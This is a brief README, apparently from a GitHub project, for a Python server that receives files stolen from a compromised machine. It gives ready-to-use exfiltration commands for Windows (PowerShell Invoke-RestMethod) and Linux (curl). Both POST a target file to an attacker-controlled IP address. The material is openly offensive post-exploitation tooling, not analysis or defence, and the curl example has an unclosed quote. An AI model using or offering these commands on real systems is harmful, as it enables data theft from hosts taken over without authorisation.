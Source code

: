 # httpInvokeDownload
Small Python Server used to download files from a compromised host.

Run this server, then on your compromised windows host, run `Invoke-RestMethod -URI http://*attacker_ip*/*vercode*/*filename* -Method Post -InFile ”*target_file*”`. If you've compromised a Linux host, run `curl -X post -d "$(cat *target_file*) http://*attacker_ip*/*vercode*/*filename*.
